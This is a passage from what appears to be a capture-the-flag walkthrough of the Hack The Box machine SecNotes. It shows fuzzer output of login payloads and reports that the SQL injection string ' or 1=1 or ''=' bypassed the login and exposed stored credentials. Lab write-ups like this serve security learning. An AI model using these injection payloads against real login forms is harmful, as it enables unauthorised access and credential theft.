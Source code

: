 ```
000115:  C=200     40 L      110 W         1625 Ch        "&"
000112:  C=200     40 L      113 W         1636 Ch        "%28"
000119:  C=200     40 L      110 W         1625 Ch        "' or 1=1 or ''='"
000117:  C=200     40 L      113 W         1636 Ch        "!"
000120:  C=200     40 L      110 W         1625 Ch        "' or ''='"

Total time: 24.13528
Processed Requests: 125
Filtered Requests: 112
Requests/sec.: 5.179139
```

Long story short, I tried all the payloads and `' or 1=1 or ''='` manage bypass the login and display the following notes. :triumph:

<a class="image-popup">
![ad70d8fa.png](/assets/images/posts/secnotes-htb-walkthrough/ad70d8fa.png)
</a>

It's the credentials that's interesting!
